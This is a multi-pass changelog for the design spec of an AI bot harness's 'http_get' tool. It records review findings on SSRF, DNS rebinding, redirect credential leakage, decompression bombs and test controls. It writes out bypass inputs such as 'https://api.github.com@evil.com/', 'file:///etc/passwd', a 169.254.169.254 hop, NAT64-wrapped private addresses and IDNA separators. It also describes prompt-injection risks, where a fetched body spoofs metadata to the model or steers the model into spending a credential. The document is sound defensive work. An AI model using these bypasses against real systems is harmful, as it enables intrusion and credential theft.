- **`application/json` is not `text/*`, and my own rule would have refused it.** "Non-text content is refused" was not executable and would have rejected the GitHub API — the exact first use case §9.4 exists for. Now an allowlist: `text/*`, `application/json`, `application/*+json`; a missing `Content-Type` is an error; **no MIME sniffing**, since an unspecified sniffing algorithm is two implementations disagreeing about what a body is. Charset: **at most one** parameter — "exactly one" was wrong and contradicted its own next clause by making zero invalid — so zero means UTF-8, one supported value is used, two or more is a named error rather than a fallback guess. **And "supported" is now an exact set** — UTF-8 only at v0.4c, case-insensitive, since leaving it undefined meant Python's codec registry, a browser registry and an allowlist would each accept different labels and different codecs. And the result's "canonical discipline used elsewhere in this document" had **no referent**: SPEC defined no encoder, so "stable" was still the coder's problem. Now defined in §9.3.3 — UTF-8, `ensure_ascii` false, lone surrogates rejected, compact separators, key order explicitly irrelevant, non-finite rejected, exactly one top-level object.
- **"A stable textual envelope" was spoofable and I introduced it.** The body is attacker-controlled, so a body containing a line shaped like `status: 200` or `credential_id: github-review` can impersonate the harness's own metadata to the model. Naming fields is not framing them. The result is now a **compact JSON object** with exact keys and types, and the encoder does the escaping.
- **Redirect target parsing was entirely unspecified**, and every part of it touches SSRF or credential forwarding: relative `Location` is now resolved per RFC 3986 against the current hop, missing or malformed `Location` is a named error, fragments are stripped, **userinfo rejection re-runs on EVERY resolved hop** — `https://api.github.com@evil.com/` works just as well from a `Location` header — and only then origin → DNS → validate → pin → credential decision. **URL length bounded at 8192 bytes** on the initial URL and each redirect target, because a hostile `Location` otherwise builds an unbounded request line and audit value outside every other cap.
- **§11 pinned the new bounds jointly rather than independently.** A suite covering decoded expansion passes an implementation with no wire bound at all. Each independent bound now needs a control that fails when that one is removed, plus controls for the header cap, redirect bodies read to zero bytes, IPv4-mapped loopback and IPv6 link-local, media-type accept AND reject, spoofed result metadata, relative redirects, per-hop userinfo, and URL length. Explicitly: **a pinning test that passes by disabling certificate identity has tested the wrong thing and must itself fail.**

**Eleventh pass — no live defect in the implementation, three absent controls.** A 46-mutation sweep plus a 900,000-case fuzz of URL normalisation found nothing that reaches the network, leaks a credential or returns a wrong code. What it found were rules with no control, which is the class this section has been worst at.

- **The credential-drop comparison was controlled on selection and not on forwarding.** Replacing the redirect check with `next_origin.host != selected.origin.host` passes the entire suite, because every existing drop control changes the HOST — none exercises a scheme downgrade or a port change. That mutation forwards a bearer token to `http://api.github.com/x` **in cleartext**. The code was always right; the control could not tell. **One-half-of-a-pair, inside the credential section, which had already committed exactly this miss once before.**
- **The one-deadline rule's budget half was never exercised.** The control passes `timeout_ms=50, remaining_budget=1`, so `min()` resolves to `timeout_ms` and the budget branch is never taken — an implementation treating `timeout_ms` as a second independent deadline passes it, which is the precise mistake the rule exists to forbid. The discriminating input is the reverse: a 30-second timeout against 0.05s of budget. **Fourth control in this document written against an input that cannot exercise the branch it names.**
- **A control named verbatim one pass earlier was never written on hop zero.** The tenth pass required plain ASCII `http://svc.internal./x` to assert `blocked_address` "on hop zero AND on a redirect hop"; only the redirect half exists.

Also marked: two changelog lines still assert what later passes reversed (redirect bytes "are charged"; a `terminal_audited` column in §15). **Changelog blocks are a record of reasoning and are never normative** — but an unmarked superseded one reads as current to anyone grepping, so they now say so.

**Tenth pass — §10 and §11 could not both be satisfied, and the implementer found it.** §10 said a trailing dot is "never `blocked_address`"; §11, added one pass earlier for the IDNA fix, requires `http://svc.internal\u3002/x` to assert the **blocked-name** refusal. Post-IDNA that host **is** `svc.internal.`, trailing-dot-bearing — so the only way to satisfy both is for the two predicates to read different forms of the host, which is exactly the defect that pass was written to forbid. **A rule and its control, added two passes apart, describing the same input and demanding different codes.** Resolved by ordering: blocked name first, trailing dot second, both post-IDNA, with §10's "never" now qualified. Consequence stated rather than buried — plain ASCII `http://svc.internal./x` becomes `http_get_blocked_address`, and §11 gains a control for it, since every existing trailing-dot case used a host nobody blocked and none of them would have noticed the change.

**Ninth pass — the control I added to catch malformed tables had the same blind spot as the tables.**

- **§11's cell-count control did not require the row terminator**, so its first implementation passed a file carrying three unterminated rows. A row written `| a | b | c` has the same separator count as a well-formed two-column row; GFM truncates the surplus and drops its text, and a checker comparing counts alone calls it clean. The control now requires the leading AND trailing `|`, matching cell count, and no non-pipe line inside the table. **The control was written to catch a defect and shipped with the defect's own blind spot** — which is the fourth time in this document a control has failed to discriminate, and the first time one failed against the exact class it names.
- **A single character defeated the blocked-name set and the trailing-dot rule together.** Python's IDNA codec splits labels on U+3002, U+FF0E and U+FF61 as well as `.`, and folds a trailing one into an ASCII trailing dot. With the trailing-dot check reading the **pre**-IDNA host and the blocked-name check reading the **post**-IDNA host, `http://svc.internal\u3002/x` passes both: the pre-IDNA string does not end in `.`, and `svc.internal.` does not end in `.internal`. The name reaching DNS and the `Host` header is a valid FQDN. §9.3.3 now requires every host predicate to evaluate the same post-IDNA form, and §11 mandates alternate-separator controls, since an ASCII-only control cannot see the split. **Splitting a pair of checks across two forms of one value is the same defect as constraining one half of a pair** — the fifth instance, and the one with the shortest exploit.

**Eighth pass — one correction, found by the implementer rather than a reviewer.** §11's new header-cap control named **"the terminator landing at 65535"**, which cannot happen: the header read is bounded by `min(4096, MAX_HEADER_BYTES + 1 - len(data))`, so the buffer never exceeds 65537 and a 65539-byte block never completes — the in-loop guard fires first and the post-loop check stays uncovered. The single reachable shape is a block of **exactly 65537** bytes with every loop-top check under 65536. **A control naming an impossible input is not a weaker control, it is an absent one**, and this is the third time in this document a control has been written against an input that cannot discriminate — after `::ffff:127.0.0.1` and a 10 MiB body under a 4 MiB ceiling. The pattern is mine: I keep choosing the number that illustrates the boundary instead of the one the code can actually reach.

**Seventh pass — the document's own tables were broken, and six adversarial passes had all read past them.**

- **Three GFM tables were structurally malformed, two of them by my folds.** §9.3.3's redirect-body row carried a **third cell in a two-column table**, and the orphan held the exact "ZERO bytes … there are none" wording the sixth pass had just replaced — the superseded rule sitting beside its replacement, invisible in the render, present in the file every reviewer greps. The repeated-header row had the same defect. Worse, the `Result shape` row was **missing its terminator**, and a blank line plus a stray paragraph sat inside the table — which ends a GFM table outright, dropping **No MIME sniffing**, **response headers are not exposed to the model**, and **a 204 is an answer** out of the table entirely. A fourth, pre-existing, put literal unescaped `|` characters in §5's `YUGO_OVERRIDES_PATH` row. All four are fixed, and §11 now mandates a cell-count check over this file — the cheapest control in the document and the one that catches what six passes of careful reading did not.
- **The URL-repertoire rule bound the wrong string.** It said the check belongs in normalisation "so it binds hop zero and every hop identically", and that claim was false: on a redirect hop the value passes through `urljoin`, which strips `\t`, `\r` and `\n` **before** any check can see them. `Location: //evil.example\n/x` therefore resolved to `http://evil.example/x` and was followed to a host the origin never named as a URL, while hop zero refused the identical bytes. The rule now binds the **raw `Location` value before resolution**. One-half-of-a-pair again, and this time the half that was missing is the attacker-controlled one.
- Also folded: §11 gained the **`N ≥ 1` redirect-cap refusal** (a suite covering only `max_redirects: 0` passes an implementation that follows redirects forever at the shipped default of 5), a **header-cap control whose terminator lands at 65535** — short of a read boundary, which is the only shape that exercises the post-loop guard — a control that the header cap counts header bytes only, and the requirement that the credential-redaction control assert the **audit half separately** from the result half.

**Sixth pass — two of these are corrections to the fifth pass's own corrections.**

- **"ZERO bytes of a redirect body are read" was over-specified and expensive.** It closed the right divergence, then bought the closure at a price it never justified: a bulk read of the header block cannot know in advance that it will stop at the terminator, so "zero bytes" forces a **one-byte-at-a-time header read** — thousands of syscalls per hop, through TLS, protecting nothing. The observable property was never how many bytes arrive; it is that they reach no one and cost nothing. Now: **never returned, never charged, and no read issued after the header terminator.** Both implementations produce identical results, which is what actually closed the divergence, and the counter question stays moot. Third revision of this one row, and the first two were mine.
- **The blocked-TLD set was narrower in this document than in the shipped code**, and the document claimed to be exhaustive. The implementation refused `.home` and `.lan`; §9 listed neither, while listing `home.arpa`, `test`, `invalid` and `onion`, which the implementation did **not** refuse — so `http://x.onion/` went to resolution. Both halves are wrong, but only one direction is safe to fix in the document: **the set is widened to match the stricter artifact.** Narrowing a security list so it agrees with prose is how protection gets deleted by bookkeeping.
- **A raw space in a `Location` reached the request line.** `urlsplit` strips `\t\r\n` and not `SP`, so `Location: /a b` emitted `GET /a b HTTP/1.1`. Not response splitting — no CRLF is reachable — but a malformed request line that a lenient origin may re-parse as a different target, and one that disagrees with the URL reported to the model. Refused rather than encoded, at normalisation so it binds every hop: percent-encoding would invent a destination the server never named.

**Fifth pass — found against the v0.4c implementation, folded back into the spec because the spec was wrong first.** Two address families and one header rule that the section's own contract covers and its enumerations did not.

- **`is_global` is not "globally-routable unicast", and the document invited that reading.** CPython returns `is_global == True` for every multicast address and for every NAT64-embedded address. The normalisation table listed IPv4-mapped and IPv4-compatible forms and stopped, so an implementation that normalised those two and then wrote `if not ip.is_global: refuse` — the natural reading of the contract sentence — approved `239.255.255.250`, `ff02::1`, and, with teeth, **`64:ff9b::a00:1`, which IS `10.0.0.1`**. On a host behind a NAT64 gateway the kernel performs that translation, so an attacker-controlled DNS answer in that family is validated, pinned, connected to, and reaches the private address the entire pinning section exists to refuse. Both families now have rows, and the contract sentence says outright that `is_global` alone MUST NOT be the whole predicate.
- **§11's IPv4-mapped control named the one address that cannot test it.** `::ffff:127.0.0.1` is already non-global on CPython, so the control passes with the normalisation deleted. It now names `::ffff:100.64.0.1`, and the multicast and NAT64 controls are written as controls against the specific wrong implementation rather than as cases.
- **The repeated-field rule needed a two-order control.** An implementation that comma-joins repeated `Content-Type` lines and then prefix-matches the join accepts `text/plain, image/png` and refuses `image/png, text/plain` — so a hostile origin puts the allowed type first and ships anything. A single-order control passes it, which is why the order is now named.

Also folded: **hop zero had no code for a non-HTTP scheme.** `bad_redirect_scheme` is scoped to redirect targets and `invalid_url`'s enumeration omitted scheme entirely, so a model-supplied `file:///etc/passwd` — where no `Location` exists — was reported as a *redirect* error. Third correction of the borrowed-specific-code shape in this list.

**Fourth adversarial pass, folded into this same version** — five blockers, and the sharpest one is against the third pass's own fix. **Two numbers in that pass were chosen by the author rather than supplied by review, and one of them was wrong on its own rationale.**

- **The 8 KiB redirect-drain allowance is now ZERO.** An upper bound is not a figure: "at most 8 KiB" permits any read in [0, 8192], and the same pass made those bytes billable against `max_bytes` — so the implementation's free choice became observable in the result, and a 1 MiB 302 followed by a 260,000-byte body under the default cap was refused by one conforming implementation and returned by another. The third pass asked "are discarded bytes charged" and never asked "how many", which is the half that determines output. **And the allowance contradicted its own justification:** draining exists to permit connection reuse, this rule closes the connection regardless, so those bytes were attacker-supplied data read for no purpose and then billed to the model. Zero also moots which counter they enter — decoded or wire — which was a third unanswered question.
- **The `Content-Length` control conflated two controls with opposite outcomes and became unbuildable.** Both halves asserted a refusal, and then the same sentence required `max_bytes` be set high enough that no size bound could fire — but `http_get_size_cap` is the only refusal §9.3.3 offers for an oversize body, so the setup forbade the asserted outcome. It also named a 10 MiB body while `max_bytes`'s range is `1 .. 4 MiB`, so that body trips the cap under **every legal configuration** and can never isolate framing. Now two controls: a size control that refuses, and a **framing control whose expected outcome is a successful fetch returning the whole body**, which is what actually fails a truncating implementation.
- **The trailing-dot fix moved one half of a pair.** The third pass added trailing-dot to `http_get_bad_redirect` and claimed parity with the hop-zero predicates, while `http_get_invalid_url`'s enumeration did not list it — and the "known residue" paragraph nine lines below still described the old `blocked_address` behaviour as current. Both halves now move, and the residue is marked fixed rather than recorded.
- **The repeated-header rule missed `Location`.** At-most-once was applied to `Content-Type` and `Content-Encoding` on a rationale — some clients join, some take the first, some take the last — that is not specific to those fields. `Location` decides the next destination: two of them send a first-wins client to one host and a last-wins client to another, attacker-chosen, in the section whose subject is SSRF. Now covered, along with `Content-Length`.
- **The blocked-TLD set had no runtime home.** §10 scoped `http_get_blocked_address` to "**only** … an address that failed the §9 SSRF check", but a TLD block is a *name* check that runs before resolution and yields no address — so `https://box.home.arpa/` against an NXDOMAIN resolver was `blocked_address` to one implementation and `transport_error` to another. The only place §10 admitted the check was §9.4's *static* startup abort, in a list that opens by excluding startup aborts. The name check now has an explicit runtime home and code. The set's provenance is also stated per-name, since it was attributed to the wrong RFCs and a reader reconciling it would have added `example` — which is deliberately excluded, being publicly resolvable.

**Third adversarial pass on §9.3.3, §10 and §11, folded into this same version** — five blockers. Three are the same shape as the second pass's: two conforming implementations disagree about a named input. Two are mandatory §11 controls whose stated outcome a correct implementation does not produce, which is the more expensive class, because a control that no correct implementation can pass is worse than no control at all.

- **A repeated header field split implementations in half.** `Content-Encoding: gzip` on two lines is `gzip, gzip` to a client that combines per RFC 9110 §5.3 — refused as stacked — and a plain `gzip` to one that takes the first, which inflates once and hands over a body that is still gzip bytes. Same split on two `Content-Type` lines, between accept and refuse. This is exactly the disagreement the **No MIME sniffing** rule exists to prevent, arriving through the header block instead of the body. Both fields are now at-most-once, refused rather than joined.
- **"Cumulative across the whole redirect chain" never said whether discarded redirect bodies count**, and on the most ordinary input in the section — a 200 KiB 302 followed by a 100 KiB body under the 262144 default — the two readings return a body and refuse the fetch respectively. They are charged. **(SUPERSEDED by the sixth pass below — zero bytes of a redirect body are read and nothing is charged. Kept because it records how the rule got here; the normative text is §9.3.3's row, never a changelog line.)** In the same row, **"without unbounded draining" was a phrase where a number belonged**: it bounded nothing, sat outside the 64 KiB header cap, and §11 then mandated a control for the *stricter* "closed without draining". The rule, the prose and the control were three different statements, and no implementation could satisfy all three. Now one figure in all three places, and that figure is **zero** — a later pass established that any nonzero allowance reintroduces the divergence it was meant to close, since draining exists to permit connection reuse and this rule closes the connection regardless.
- **§10 had no code for a `Location` this document mandates rejecting.** `https://api.github.com@evil.com/` in a `Location` header is present and parses, so "missing or malformed" did not cover it, and `bad_redirect`'s "and nothing else" clamp excluded it — while `invalid_url` is scoped to hop zero. The refusal was mandatory and unreportable, so an implementer reaches for `http_get_transport_error`: the honest-ignorance code, for a refusal that is not ignorance. That is the borrowed-code defect two commits in this slice exist to stamp out, committed by the spec itself. `bad_redirect` now enumerates the hop-zero predicates applied to a resolved target, which is what §10's own note about the per-hop userinfo control already presupposed.
- **§11's DNS-rebind control asserted an outcome that pinning does not produce.** "A resolver that answers public then private MUST fail the fetch" — but a conforming implementation validates the first answer, pins it, connects, and **succeeds**; it never asks the resolver again. The mandated assertion was satisfiable only by an implementation that refuses everything, which the appended vacuity clause claimed to rule out while the row itself required it. The control now asserts what actually separates the two implementations: the address connected to is the address validated, the fetch succeeds, and a check-then-use implementation fails by reaching the private endpoint.
- **§11's `Content-Length` control, read literally, mandated refusing ordinary chunked traffic.** The "10 MiB" attached to the first clause only, so "and so is a chunked response with no length at all" refused most real HTTP/1.1 responses — something §9.3.3 makes an error nowhere. The size is now in both clauses. **Both halves also had to be made to test framing rather than size**: a body arriving entirely inside the header read trips the wire cap before the `Content-Length` branch is consulted, so the control passed an implementation that truncates to the declared length. Each is now exercised in two delivery shapes with the size bound held clear.

Two non-blocking observations from the same pass, also folded: **the blocked-TLD set is enumerated** — it was ".internal TLDs" and nothing said what else was in it, so `printer.local` loaded in one implementation and aborted startup in another, both citing this line; and **the stale count "v0.4c adds seven"** is gone, since the list it introduces has always enumerated more.

**Changes from v12.15** (v0.4c was not implementable as specified. First pass supplied three missing constants; adversarial review found the section still left five security-relevant semantics to the coder, one of them a live hole):

- **"Post-resolution IP check" did NOT defend DNS rebinding.** Resolve, validate the address, then hand the HOSTNAME to an HTTP client and it resolves again — check-then-use. An attacker answers public for the validation and link-local for the connect. Now **address pinning**: connect only to an already-validated address, hostname preserved for `Host`/SNI/certificate verification so pinning does not become cert bypass, and the whole sequence repeats per hop. §9's blocked set also omitted IPv6 link-local `fe80::/10`, unspecified `0.0.0.0`/`::`, and IPv4-mapped forms like `::ffff:127.0.0.1`, which walks straight past a v4-only loopback check unless normalised first. The enumerated list is now a floor; the contract is globally-routable unicast only.
- **The byte bound bounded the wrong bytes.** Wire bytes alone permits a compression bomb — a few KiB of `gzip` expanding to gigabytes before anything is tool-visible. Now **both** bounds: decoded bytes materialized for the result, AND wire bytes during streaming, neither substituting for the other. Also made **cumulative across the redirect chain** rather than per-response, since five hops at a per-response cap is five times the cap; zero bytes of a redirect body are read — the connection is closed when the header block ends, so a discarded body charges nothing; and **response headers get their own 64 KiB bound**, because body streaming does not bound a header bomb. **Follow-up found by Vec at build time:** the bound said "decoded bytes" and named `gzip` and `br` in its reasoning while never stating which encodings are accepted, whether stacking is legal, or what an unsupported one does — three inventions left to the coder inside a clause specifically about a bomb vector. **And `id` had no repertoire constraint while `value` gained one** — `id` is not sent on the wire, so it looked exempt, but it is returned to the model as `credential_id`, so a non-ASCII or lone-surrogate id passed startup and tripped the result encoder at call time instead. Constrained to the same repertoire. Found reviewing the v0.4c implementation: fixing one field of a pair and leaving the other is the class/instance mistake again.

**And §9.4.1's `value` rule accepted credentials the transport cannot send** — any non-empty string without CR/LF/NUL, while request construction encodes the header block as ASCII. A non-ASCII credential passed startup and failed at use, under the wrong error class, on a value the operator had been told was valid. Now restricted to the HTTP field-value repertoire, which excludes CR/LF/NUL by construction, so the loader and the transport agree and the failure lands at startup where a human can fix it. Found by review of the v0.4c implementation.

Settled: `Accept-Encoding: gzip` only, stacked encodings refused, malformed streams a named error, incremental decode so the bound stops it rather than measuring after. **Third pass, from an independent review of the implementation:** `credential_attached` was derived from a chain-cumulative list, so a credential correctly dropped at a cross-origin hop still reported as attached on the final unauthenticated response — the exact lie the field exists to prevent, and reproduced end to end. It now describes the final hop only; the audit keeps the chain-wide view. Separately the empty-body row contradicted the missing-`Content-Type` row: a real 204 carries no media type, so an implementation following the stricter row refuses every 204.

**Second pass on the same contract:** exactly one gzip member — a concatenated second member or trailing bytes is refused, since returning member one alone hands the model a partial body it believes is complete while decoding all members moves the bomb boundary inside the codec; and the HTTP client's own automatic decompression must be disabled, or the independently mandated wire bound is unobservable and silently becomes a second decoded cap. **Also confirmed by review:** advertising `Accept-Encoding: gzip` does not oblige us to accept `br` — under RFC 9110 identity stays acceptable unless explicitly refused, so a conforming origin sends gzip or an unencoded representation, and refusing an unsolicited `br` is preferable to widening the decoder surface.
- **`timeout_ms` was a second, unrelated deadline.** v0.4a already hands each tool call the turn's remaining `RESPONSE_TIMEOUT`, and nothing said how the two combine. Now **one monotonic deadline**, `min(configured, remaining turn budget)`, spent across DNS, connect, TLS, headers, every hop and body streaming — recomputing per hop or phase is explicitly forbidden, and the deadline must be pushed down as socket timeouts because §9.3.2's `wait_for` caveat applies.
- **`max_redirects: 0` was illegal, and it is the safest setting.** §9.3.1's zero-is-fatal rule is right for a byte or time bound and wrong here: zero means follow nothing. Carved out, with redirect counting defined exactly — `N` is redirect *responses followed*, so `0` permits one request and `5` permits six.
- **The tool-visible response contract was entirely unwritten** — five silent decisions. Now specified: non-2xx returns as a normal result with its status, NOT a transport error, because GitHub returns 404 rather than 403 for an unauthorised private repo and collapsing statuses destroys the one signal that distinguishes absent from unauthorised; body must be valid UTF-8 honouring `Content-Type` charset, with invalid encoding a named error rather than replacement characters or base64; non-text refused; a stable result shape naming final normalised URL, status, credential-attached id, and body **(both of those SUPERSEDED in the second pass below — "non-text refused" would have refused `application/json`, and a "stable result shape" that only names fields is spoofable by an attacker-controlled body; see the media-type allowlist and the compact JSON object in §9.3.3)**; response headers NOT exposed, since they are attacker-controlled and would need their own §9.4 redaction pass; empty body is a result, not an error.
- **The audit rationale was wrong about the audit.** `max_bytes` was justified partly by the result landing in the audit line; `ToolAuditLog` caps result summaries at 500 characters. The audit was never the size argument — the model's context is. Corrected without weakening the 256 KiB choice.
- **§10 names every new tool error** and states that a non-2xx status is not among them. **§11 gains controls rather than cases** — rebind pinning *with a vacuity control*, compressed expansion, lying and missing `Content-Length`, total-not-per-hop timeout, the exact redirect boundary including zero, and the 404-returns-as-a-result shape.

- **New §9.3.3 — `http_get` bounds and semantics.** §9 gave the SSRF defences and §9.4 gave the credentials; **nothing said what the tool does.** No redirect cap value, no response-size bound, no timeout. §9.3.1's accepted-config table listed no keys for `http_get`, and a tool declaring none rejects all config, so the bounds were not even expressible. Now: `max_bytes` 256 KiB / 4 MiB ceiling, `timeout_ms` 30s / 120s ceiling, `max_redirects` 5 / 10 ceiling, each with its reasoning stated rather than asserted.
- **`timeout_ms` is total wall-clock including the redirect chain**, not per-hop. Five hops each finishing just inside a per-hop limit is a two-and-a-half-minute call that never times out.
- **`max_bytes` is enforced while the body streams, and `Content-Length` MUST NOT be trusted.** Check-after-read means a hostile host sends 10 GiB and the bot dies before the check; `Content-Length` is a claim by the party controlling the body. Over the bound is a named error, never a silent truncation handed to the model as if complete.
- **The post-resolution IP check runs on every hop.** The redirect cap bounds chain *length*, not *destination* — hop 4 resolving to `169.254.169.254` is the actual attack, and §9's wording did not say the check repeats.
- **Redirects are followed only for GET-preserving codes to `http`/`https`.** `file:`, `data:` and other schemes are a named tool error.

**Changes from v12.14** (§15's live-wire note, plus the FB-3 checklist it referred to):

- **The reference-adapter citation was stale.** It named `artifice-discord/src/fleet-bus.ts` at v0.4.0. The deployed adapter is 0.7.0, where the bus moved out of the plugin into the `@artifice-ia/fleet-bus` package and the plugin's own copy no longer exists. A reader checking the citation would have found nothing.
- **FB-3 did not do what §15's note said it did.** The note claimed `.result` removal lands inside each adapter's FB-3 PR and pointed at FB-3 as authoritative. FB-3 listed five atomic items — start `.inbox`, stop `.request`, revoke `.request` subscribe, de-dup test, revoke test — and **none of them removed `.result`.** An implementer could complete all five and still be publishing to the subject this document says is gone. Three items added: migrate reply publication to `.request` + `in_reply_to`; delete the `.result` receive path including 0.7.0's waiter ledger rather than leaving it dormant; and revoke `.result` authz **in both directions**, publish as well as subscribe, with a conformance test. Revoking subscribe alone would leave every bot able to publish to a channel nothing gates.
- **`.result` appears in that subject list because it exists today, not because it survives.** The passage already flagged itself as pre-FB-3 with respect to `.inbox`; it is equally pre-FB-3 with respect to `.result`, which §4.7 and §7 remove and which Fernando confirmed removed on 2026-08-29. Now says so, with the post-FB-3 subject list stated outright so the transitional list cannot be mistaken for the target.

**Changes from v12.13** (the authority grammar added in v12.13 was malformed — **fourth consecutive revision in which the repair broke the thing it repaired**, and the third in which the new rule rejected this document's own worked example):

- **The `label` production did not mean what it read as.** ABNF concatenation binds tighter than `/`, so `label = ALPHA / DIGIT *( ALPHA / DIGIT / "-" ) ALPHA / DIGIT` is three alternatives — a single `ALPHA`, or `DIGIT *(...) ALPHA`, or a single `DIGIT` — not "starts alphanumeric, ends alphanumeric." An ordinary label beginning with a letter does not match it, which makes `api` and `github` in this section's own `api.github.com` illegal. Grouped, with the one-character case explicit: `label = ( ALPHA / DIGIT ) [ *( ALPHA / DIGIT / "-" ) ( ALPHA / DIGIT ) ]`.
- **§11 gains POSITIVE grammar controls**, which is the deeper finding. Every authority case in v12.13 was a rejection, so a parser that rejects *every* hostname — including all the useful ones — passed the whole suite. A negative-only suite cannot distinguish a correct grammar from one that accepts nothing. The worked hostname, a single-character label, and an interior hyphen must now be asserted to PARSE.
- The redaction row mandated scrubbing the entire tool-visible result and then summarised itself one sentence later as "the body or the audit". Summary widened to match the mandate.

**Changes from v12.12** (re-review of the v12.12 repair — two new blockers *introduced by the repair itself*, plus a class-miss; this is the third consecutive revision where fixing §9.4 broke §9.4):

- **The `id` rule rejected this document's own example.** "MUST NOT contain the credential value **or any part of it**" has no minimum length and no direction, so any two strings sharing one character violate it — `github-review` and `Bearer ghp_...` share several. Replaced with the only executable form: `id` must not equal `value` and must not contain the **complete** `value`. Confidentiality rests on the mandated literal scrub, not on substring-entropy policy invented in a grammar table.
- **"An A-label host, optionally `:port`" is not a grammar.** It left `api.github.com:`, `:-1`, `:99999`, `:0443` and colon-bearing IP literals to whichever URL parser an implementer reached for — while normalised-origin *uniqueness* and credential *selection* both require every implementation to parse it identically. Now specified as an ABNF-shaped authority: DNS A-label hostname plus optional ASCII-decimal port `1..65535`, leading zeros rejected rather than normalised, and **IP-literal origins forbidden outright** — blocked or not, v4 or bracketed v6 — which is a shorter contract than defining IPv6 normalisation for a case with no use. §9.4's static blocklist row reconciled to match.
- **`version` escaped the bool trap I had just written down for everything else.** v12.12 required `type(str)` on all four credential fields, naming `isinstance(True, int)` as the reason — and left `version` on a bare `== 1`, which `version: true` satisfies. Now `type(version) is int and version == 1`. Fixing the instances and missing the class, in the same commit that named the class.
- **Redaction scoped to "the response body" left a second result channel.** An HTTP-client exception that stringifies the request, or an error renderer that includes headers, reaches the model without passing the body scrub. The scrub now applies to the entire tool-visible result on every success and error path.

**Changes from v12.11** (second adversarial review pass on §9.4/§9.4.1 — four blocking contract defects, all folded):

- **The mode rule contradicted itself inside one section.** §9.4's opening still said "same 0644-or-tighter rule as the grant file" while §5, the §9.4.1 example, §10 and the v12.11 changelog all said `0600` — an implementer could conform to one and violate the other. Fixed by stating the *property* instead of an exact mode: **`mode & 0o077 == 0`**, no group or world bit. `0600` and `0400` both conform. Owner write does not expose the secret to another identity; group/world readability does. This is the second time in two revisions that fixing a contradiction in this section introduced a new one.
- **The redirect clauses disagreed on an ordinary same-origin 302.** "Attached only on the initial request" made hop 2 unauthenticated; "dropped on any redirect that changes scheme, host or port" implied it survived a redirect that changed none. Now split into **credential selection** (once, against the initial URL, never again) and **header forwarding** (carried only while the normalised origin is byte-identical, dropped permanently at the first change). An omitted port on `https` is defined as `:443`, so `https://host` → `https://host:443` is not accidentally an origin change.
- **§9.4.1 validated presence, not values.** The fatal list never required a credential entry to be a mapping, never typed or non-empty-checked the four fields, named only duplicate `host`/`id` while YAML could silently discard a duplicate `value` or `header` key *before* validation ran, and gave no header grammar — leaving request construction and header-injection behaviour to the implementer. Now: the §9.1 loader semantics apply verbatim (duplicate mapping key fatal at every level, aliases and merge keys rejected), an entry must be a mapping with exactly the four named keys, every field is a non-empty string, header names are RFC 9110 field-name tokens and values reject CR/LF/NUL.
- **Credentials now bind to a normalised HTTPS origin, not a bare host.** The map was host-only, so a credential for `api.github.com` was also sent to `https://api.github.com:8443` — while the redirect rule treated port as part of identity. One definition of origin now serves both.
- **"The model never sees the value" was stronger than redaction can support.** Literal-substring redaction catches an exact reflection; it cannot catch a credentialed endpoint that JSON-escapes, URL-encodes or base64s the header it received. No response-body redactor can prove secrecy against an origin allowed to transform its own input. Literal redaction stays — it closes the common accidental case — but the guarantee is now scoped to the literal value, with transformed reflection stated as residual risk.

**Changes from v12.10** (adversarial review of §9.4 — ten blocking findings, all folded; the section shipped unsafe to build against):

- **The credentials file was not required to be outside `$YUGO_WORKSPACE_PATH`, so `read_file` could read the token.** The `YUGO_TOOLS_FILE` row directly above it carries exactly that sentence and §9.4's row omitted it — one plausible operator layout and the section's central claim was void. Now mandatory and fatal. Mode tightened from the grant file's `0644`-or-tighter rule to **no group or world bit at all**: the grant file's rule guards *tampering*, this file's threat is *reading*. (v12.11 wrote that tightening as the literal mode `0600` and left one passage saying `0644`; v12.12 restates it as the property.)
- **"The value never appears in results" was unenforceable** — a result IS the response body, the credentialed host controls it, and reflection endpoints echo request headers. Redaction by literal-substring match is now mandated on the body and the audit summary.
- **Withholding the value does not withhold the AUTHORITY**, and the section read as if it did. The residual is now stated outright: the model can aim the harness's token at any URL on the credentialed host, and `http_get` with a model-controlled query string is a full exfiltration channel. Credentials MUST be minimum-scope. "Keeps write access out entirely" was false in both directions and is gone.
- **No TLS requirement** — `http://` got the `Authorization` header in cleartext, and a same-host `https`→`http` downgrade kept it. Credentials are now `https`-only.
- **"Same-host redirects MAY keep it"** — a `MAY` in a security rule means two conforming implementations differ and no test can be written. Now MUST/MUST NOT, with "same host" defined as byte-equal A-label host AND port AND scheme, attached at most once, never re-attached, never added mid-chain.
- **Rule 1's justification argued for the vulnerability.** Confusable hosts correctly get no credential; the old "why" pointed an implementer at adding homoglyph folding, which would hand the token to the attacker. Replaced with an executable mechanism.
- **The blocklist rule required startup DNS** to be implementable, with undefined failure behaviour. Now a static check, explicitly no boot-time resolution, with the runtime SSRF check named as the actual guarantee.
- **New §9.4.1: the file grammar** — worked example, `version`, `safe_load` mandate, duplicate-`host` fatal, read-once-at-startup, and the model-visible lane (the result must say whether a credential was attached, since GitHub returns 404 not 403 for an unauthorised private repo and the model would otherwise report "does not exist").
- **§10 and §11 reconciled.** Fourth time in one day this document's headline section moved and its contract sections did not.
- **§1's new paragraph overreached** — it claimed a yugo bot's engine is swappable, which §5 contradicts (`MODEL` and a provider key are required for `YUGO_MODE=bot`) and §14 does not provide, since `EngineAdapter` is bus membership for non-yugo engines rather than an engine slot inside `yugo bot`. Cut to what the document supports.

**Changes from v12.9** (settling v0.4c before it is briefed, and one framing sharpening):

- **New §9.4 — `http_get` credentials.** §9 specified this tool's SSRF defences thoroughly and said nothing about authentication, which made it a public-URL fetcher. Its first real use is a reviewer bot reading a private repo's diff. Settled: **the model never names or supplies a credential** — it supplies a URL, the harness matches the resolved host and attaches the header. (v12.11 wrote this as "never sees"; v12.12 scopes it, since redaction can only guarantee the *literal* value.) Letting the model pass headers hands it the token, and a tool whose primary job is reading attacker-influenceable text must not also hold a secret it can be talked into spending. The sharp rules are match-on-resolved-host (not the model's string), **credential DROPPED on a cross-host redirect** (the existing redirect cap does not help — the request stays legal and merely leaks), value never in arguments/results/audit, and a credential aimed at a blocklisted host is fatal at startup.
- **§1 sharpened: the fleet is heterogeneous at the BOT layer, not only the coordinator.** §1 already said the coordinator is engine-agnostic; it described `yugo bot` as "a single native-harness bot" and left the impression that the native harness IS yugo. Today's fleet disproves that — five bots share one skeleton, four driving `codex app-server` and one driving grok. §14's `EngineAdapter` formalises a boundary that already exists informally.

**Changes from v12.8** (Ohm's non-blocking precision note on PR #15, landed as its own change rather than ridden in on an approval):

